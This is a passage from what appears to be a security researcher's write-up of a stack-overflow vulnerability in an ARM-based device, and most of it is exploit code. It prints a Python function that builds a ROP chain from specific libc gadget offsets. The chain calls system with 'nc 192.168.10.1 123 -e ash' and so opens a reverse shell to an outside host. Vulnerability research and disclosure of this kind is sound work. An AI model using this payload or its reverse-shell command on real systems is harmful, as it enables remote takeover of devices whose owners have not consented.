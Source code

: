 However, as this is a string-based stack overflow, we can't send in null terminators, so we can only use gadgets within the shared libraries - meaning we'd need a leak. Luckily, the last bug we found gives us that!

## Exploit

I put together an exploit that uses the OOB-Read to leak a *libc* pointer (which we can use to get the base address), then uses a ROP-chain to call **system("nc 192.168.10.1 123 -e ash")** to get a reverse shell on *192.168.10.1*. Here is the ROP-chain in Python:

```
-python
def generate_stack_overflow_ROP_payload(pad_count, ip, port, libc_base):
	system_libc = libc_base + 0x4b4fc
	exit_libc = libc_base + 0x46c30

	# ROP Chain for reverse shell
	payload = b'a' * pad_count

	# Do the stack overflow and execute arbitrary command
	payload += (libc_base + 0x4a5e0).to_bytes(4, byteorder='little') # pc

	# | 0x4a5e0 | ldmia sp!,{r3,pc} |
	payload += (libc_base + 0x313f8).to_bytes(4, byteorder='little') # r3 - copy r2 into r0
	payload += (libc_base + 0x32c24).to_bytes(4, byteorder='little') # pc

	# | 0x32c24 | add r2,sp,#0x3c | blx r3 |

	# | 0x313f8 | cpy r0,r2 | ldmia sp!,{r4,pc} |
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (system_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa" # padding
	payload += (libc_base + 0x184f4).to_bytes(4, byteorder='little') # pc

	# | 0x184f4 | mov r0,#0x1 | ldmia sp!,{r4,pc} |
	payload += (0xdeadbeef).to_bytes(4, byteorder='little') # r4
	payload += (exit_libc).to_bytes(4, byteorder='little') # pc
	payload += b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab" # padding
	payload += f"nc {ip} {port} -e ash #".encode() # command to execute as system
	
	return payload
```

And here is the exploit in action:
